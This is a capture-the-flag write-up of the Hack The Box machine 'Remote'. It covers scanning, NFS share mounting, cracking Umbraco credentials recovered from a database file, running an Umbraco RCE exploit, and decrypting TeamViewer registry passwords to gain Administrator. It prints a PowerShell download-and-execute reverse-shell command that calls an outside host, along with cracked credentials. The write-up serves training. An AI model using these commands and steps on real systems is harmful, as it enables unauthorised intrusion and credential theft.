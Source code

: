 ```yaml
---
title: "[HTB] Machine: Remote"
description: "[HTB] Machine: Remote"
date: 2023-06-29
menu:
  sidebar:
    name: "[HTB] Machine: Remote"
    identifier: htb-machine-remote
    parent: htb-machines-windows
    weight: 10
hero: images/remote.png
tags: ["HTB"]
---
```


# Remote
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.180
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-02 18:25 BST
Nmap scan report for 10.10.10.180 (10.10.10.180)
Host is up (0.13s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -31s
| smb2-time: 
|   date: 2023-07-02T17:26:07
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.64 seconds
```
- Web server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.180 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x asp,aspx --no-error
===============================================================
Gobuster v3.5                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                                                                                               
===============================================================
[+] Url:                     http://10.10.10.180
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
2023/07/02 19:58:02 Starting gobuster in directory enumeration mode
===============================================================
/.aspx                (Status: 200) [Size: 6693]
/contact              (Status: 200) [Size: 7880]
/contact.aspx         (Status: 200) [Size: 7880]
/blog.aspx            (Status: 200) [Size: 5001]
/home.aspx            (Status: 200) [Size: 6703]
/blog                 (Status: 200) [Size: 5011]
/home                 (Status: 200) [Size: 6703]
/products             (Status: 200) [Size: 5328]
/products.aspx        (Status: 200) [Size: 5328]
/default.aspx         (Status: 200) [Size: 6693]
/people.aspx          (Status: 200) [Size: 6739]
/people               (Status: 200) [Size: 6739]
/product.aspx         (Status: 500) [Size: 3420]
/product              (Status: 500) [Size: 3420]
/Default.aspx         (Status: 200) [Size: 6693]
/Home                 (Status: 200) [Size: 6703]
/Home.aspx            (Status: 200) [Size: 6703]
/Products             (Status: 200) [Size: 5338]
/Products.aspx        (Status: 200) [Size: 5338]
/Contact              (Status: 200) [Size: 7890]
/Contact.aspx         (Status: 200) [Size: 7890]
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/Blog.aspx            (Status: 200) [Size: 5011]
/Blog                 (Status: 200) [Size: 5011]
/People.aspx          (Status: 200) [Size: 6749]
/People               (Status: 200) [Size: 6749]
/Product              (Status: 500) [Size: 3420]
/Product.aspx         (Status: 500) [Size: 3420]
```
- Seems like there is a [UMBRACO CMS](https://umbraco.com/), based on `/install` redirect

![](./images/2.png)

- We have `Remote Code Execution` exploits
  - But I need to find the version and creds to be able to perform them

![](./images/3.png)

- Nothing found on `SMB` and `FTP`

![](./images/4.png)

- We can also check `nfs` on port `2049` which was returned by `nmap`
```
└─$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

## Foothold/User
- Let's mount it

![](./images/5.png)

- If we check `App_Data` we will find [SDF file](https://fileinfo.com/extension/sdf)
  - Which is `a file that contains a compact relational database saved in the SQL Server Compact (SQL CE) format, which is developed by Microsoft`
  - We can search for tools to open it
  - But we can try using `strings` just to see its' contents: `strings Umbraco.sdf | less`
  - Found some creds
    - `admin@htb.local:b8be16afba8c314ad33d812f22a04991b90e2aaa`
    - `smith@htb.local:jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts=`
  - Crack them right away
    - `admin@htb.local:baconandcheese`

![](./images/6.png)
![](./images/7.png)

- Creds work, now we can access `CMS`

![](./images/8.png)

- Let's try one of the exploits
  - Change `login`, `host`, `password`, `cmd` and `proc.StartInfo.FileName`.

![](./images/9.png)
![](./images/10.png)
![](./images/11.png)

- Let's get a reverse shell
  - `cmd` = `/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.12:8000/shell.ps1')`

![](./images/12.png)

## Root
- Let's upload `winpeas` and run it
  - We have a list of interesting services
  - `TeamViewer`

![](./images/13.png)

- There is a module in metasploit to gather [TeamViewer credentials](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/gather/credentials/teamviewer_passwords.rb)
  - Let's retrieve a password for registry: `HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7`
    - `OptionsPasswordAES`, `SecurityPasswordAES`, `SecurityPasswordExported`, `ServerPasswordAES`, `ProxyPasswordAES`, `LicenseKeyAES`


![](./images/14.png)
![](./images/15.png)

- According to module, it looks like `TeamViewer` uses static `key` and `iv`
  - Using `metasploit`'s module as reference we can write own script to decrypt the password

![](./images/16.png)

- You can use `evil-winrm`, `psexec` or `wmiexec` to connect as Administrator

![](./images/17.png)

